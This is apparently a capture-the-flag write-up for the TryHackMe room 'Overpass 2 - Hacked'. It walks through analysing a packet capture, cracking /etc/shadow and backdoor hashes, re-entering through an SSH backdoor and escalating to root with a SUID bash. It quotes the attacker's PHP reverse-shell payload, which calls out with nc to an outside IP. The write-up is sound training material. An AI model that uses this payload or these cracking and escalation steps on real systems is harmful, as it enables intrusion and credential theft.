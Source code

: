 # Overpass 2 - Hacked

- [Tools](#tools)
- [Forensics - Analyse the PCAP](#forensics---analyse-the-pcap)
- [Research - Analyse the code](#research---analyse-the-code)
- [Attack - Get back in!](#attack---get-back-in)

Room Link: https://tryhackme.com/room/overpass2hacked

## Tools 

1. Wireshark https://www.wireshark.org/download.html
2. Strings
3. ssh
4. John The Ripper https://www.openwall.com/john/
5. hashcat https://hashcat.net/hashcat/

##  Forensics - Analyse the PCAP

1. Download `overpass2.pcapng`.
2. Check and match `md5sum` of the file to verify file.
```bash
md5sum overpass2.pcapng 
11c3b2e9221865580295bc662c35c6dc  overpass2.pcapng
```
3. We can use `wireshark` and `follow TCP streams` of suspicious streams. But, I used `strings overpass2.pcapng`.
4. With strings we can see everything in plaintext. There is a request to link on directory `/development/upload.php`.
5. Question `What was the URL of the page they used to upload a reverse shell?` Answer `/development/`.
6. With same method we can get the payload `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`. You can check it by scrolling or simply use `strings overpass2.pcapng |grep "php exec"`
7. Question `What payload did the attacker use to gain access?` Answer `exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")`.
8. Question `What password did the attacker use to privesc?` Answer `whene************tant`. You can manually scan strings result to see the password.
9. Question `How did the attacker establish persistence?` Answer `https://github.com/NinjaJc01/ssh-backdoor`. With same manual scrolling will work here.
10. We can see `cat /etc/shadow` command and it's result inside `strings` output. We can simply save it in a file named shadow.
11. Then we need to download `fasttrack` wordlist as instructed using command `wget https://raw.githubusercontent.com/drtychai/wordlists/master/fasttrack.txt`.
12. Then we can run john to check.
```bash
john --wordlist=fasttrack.txt shadow 
Loaded 5 password hashes with 5 different salts (crypt, generic crypt(3) [?/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
se*****y3        (paradox)
ab***23          (szymex)
s****t12         (bee)
1***2wsx         (muirland)
4g 0:00:00:04 100% 0.8113g/s 45.03p/s 187.4c/s 187.4C/s 2003..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
13. Question `Using the fasttrack wordlist, how many of the system passwords were crackable?` Answer `4` 


## Research - Analyse the code
1. We have the backdoor link `https://github.com/NinjaJc01/ssh-backdoor`. We can find `hash` and `salt` details inside code. `https://raw.githubusercontent.com/NinjaJc01/ssh-backdoor/master/main.go`
2. Question `What's the default hash for the backdoor?` Answer `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`
3. Question `What's the hardcoded salt for the backdoor?` Answer `1c362db832f3f864c8c2fe05f2002a05`.
4. Question `What was the hash that the attacker used? - go back to the PCAP for this!` Answer `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`. We can check it manually inside `strings` output. By using `strings overpass2.pcapng |grep "backdoor -a"` we can directly find the output.
5. As we can find in the backdoor code that it is `sha512`. So we can decode it using `hashcat`.
```bash
hashcat -m 1710 "6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05" --force /opt/wordlist/rockyou.txt --quiet
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:no******6
```
6. Question `Crack the hash using rockyou and a cracking tool of your choice. What's the password?` Answer `n********6`

## Attack - Get back in!

1. Start Machine to get IP.
2. Question `The attacker defaced the website. What message did they leave as a heading?` Answer `H4ck3d by CooctusClan`. Manually checking strings output for downloading deface page will show this. We can also use this command `strings overpass2.pcapng |grep "H4ck3d"`. Or simply opening the ip in browser will show this heading.
3. We have repeat attackers steps. Now we can login to the ssh port 2222 opened by the backdoor as we saw in `strings` output. We already have username `james` and can use cracked password. We need to use `-oHostKeyAlgorithms=+ssh-rsa` to get ssh as there is an error.
```bash
ssh -p 2222 james@10.10.136.126
Unable to negotiate with 10.10.136.126 port 2222: no matching host key type found. Their offer: ssh-rsa
$ ssh -oHostKeyAlgorithms=+ssh-rsa james@10.10.136.126 -p 2222
The authenticity of host '[10.10.136.126]:2222 ([10.10.136.126]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.136.126]:2222' (RSA) to the list of known hosts.
james@10.10.136.126's password: *******
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
```
4. Question `What's the user flag?` Answer `thm{****************}`
```bash
james@overpass-production:/home/james/ssh-backdoor$ cat /home/james/user.txt
thm{****************}
```
5. By using SUID find command `find . -perm /4000` we got a unusual file `/home/james/.suid_bash`. We can get suid exploit for it here https://gtfobins.github.io/gtfobins/bash/#suid
6. Question `What's the root flag?` Answer `thm{***************************}`
```bash
james@overpass-production:/home/james/ssh-backdoor$ /home/james/.suid_bash -p
.suid_bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)
.suid_bash-4.4# cat /root/root.txt 
thm{***************************}
```

Author: Zishan Ahamed Thandar

